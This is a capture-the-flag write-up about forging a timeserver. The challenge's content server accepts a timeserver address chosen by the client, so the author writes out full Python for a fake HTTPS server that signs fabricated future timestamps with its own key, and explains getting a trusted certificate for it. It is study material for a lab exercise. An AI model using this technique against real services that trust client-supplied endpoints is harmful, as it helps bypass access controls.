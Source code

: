 As in the code of content server, we get one character of the flag each day, but the address of timeserver is given by the client-side script, aka, user's request. So we can modify the `timeserver` to our own malicious server to fake the timestamp!

Here's the fake server code:
```python
from http import HTTPStatus
from http.server import BaseHTTPRequestHandler, HTTPServer
import json, time, ssl
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

class HTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/pubkey':
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = pubkey
            self.wfile.write(res_body.encode('utf-8'))
            self.requestline
        else:
            second = int(time.time()) % 60 # refresh timestamp by one day for each second
            timestamp = str(int(time.time()) + second * 3600 * 24).encode('utf-8')
            h = SHA256.new(timestamp)
            signer = DSS.new(key, 'fips-186-3')
            signature = signer.sign(h)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/json; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = json.dumps({'timestamp' : timestamp.decode('utf-8'), 'signature': signature.hex()})
            self.wfile.write(res_body.encode('utf-8'))

handler = HTTPRequestHandler
httpd = HTTPServer(('', 5001), handler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile='cert.pem', keyfile='key.pem', server_side=True)
httpd.serve_forever()
```

The trap is that the certificate cannot be self-signed or not trusted by python's httpserver. I finally find the certificate issued by [Let's Encrypt](https://letsencrypt.org/) with the certificate trust chain from ISRG Root X1, the same as the one used by the real time server. The certificate is free of charge, but you still need a domain name to get it. Then, you can just simply send the request to the content server with fake timeserver address to get the flag.
